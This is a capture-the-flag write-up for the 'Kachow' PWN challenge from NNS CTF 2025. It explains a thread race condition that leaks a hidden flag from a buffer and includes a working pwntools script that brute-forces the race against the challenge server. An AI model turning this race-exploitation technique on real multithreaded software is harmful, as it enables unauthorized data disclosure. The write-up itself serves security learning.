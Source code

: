 # Kachow – NNS CTF 2025 (PWN)

## Challenge description
> *"You might be fast, but are you faster than libc?"*  

We are given a C binary that allows us to:
1. Fill a buffer with user input (`fgets`).
2. Load the flag into the buffer (but overwrite the first byte with `'\0'`).
3. Print the buffer content using a new thread.
4. Exit.

---

## Vulnerable code

```c
void load_flag(char *addr) {
    char *flagptr = getenv("FLAG");
    addr[0] = '\0'; // now getting the flag is impossible
    strncpy(addr+1, flagptr, 127);
    printf("Successfully placed flag in buffer.\n");
}

void *print_buffer(void *addr) {
    printf("Buffer content: %s\n", (char *)addr);
    return 0;
}
```

The flag is stored at `buffer[1..]` with `buffer[0] = '\0'`, so a normal print shows nothing.

## Vulnerability

- `load_flag()` null-terminates the buffer, hiding the flag.
- `print_buffer()` runs in a new thread with `printf("%s")`.
- `fill_buffer()` lets us overwrite `buffer[0]` with user input.

Because `printf` runs in another thread, we can race:
1. Load the flag (`2`).
2. Start printing (`3`).
3. Immediately overwrite `buffer[0]` via `fill_buffer` (`1` + `"A"`).

If timed correctly, the print thread will output:
```
Buffer content: A<flag>
```

## Exploit

We brute force the race with pwntools, sending `2 → 3 → 1` rapidly and overwriting `buffer[0]`. With enough tries, the flag leaks.
```python
from pwn import *
import re, time, random

HOST = "70e7f76a-ab7b-4ed2-9f53-715dd995652d.chall.nnsc.tf"
PORT = 41337

FLAG_RE = re.compile(rb"(NNS\{[^}\n]*\})")

def sync_prompt(io):
    io.recvuntil(b"> ")

def attempt(io):
    io.sendline(b"2")            # load flag
    time.sleep(random.uniform(0, 0.003))
    io.sendline(b"3")            # print (threaded)
    time.sleep(random.uniform(0, 0.003))
    io.sendline(b"1")            # fill buffer
    io.send(b"A")                # overwrite buffer[0]
    time.sleep(random.uniform(0, 0.004))

    try:
        io.recvuntil(b"Buffer content: ", timeout=0.08)
        line = io.recvline(timeout=0.08)
        m = FLAG_RE.search(line)
        if m:
            return m.group(1).decode()
    except EOFError:
        return None

    io.send(b"\n")
    sync_prompt(io)

def main():
    io = remote(HOST, PORT, ssl=True)
    sync_prompt(io)

    for i in range(5000):
        flag = attempt(io)
        if flag:
            print(f"[+] Flag found: {flag}")
            break
        if i % 100 == 0:
            print(f"[.] Attempt {i}")

if __name__ == "__main__":
    main()

```
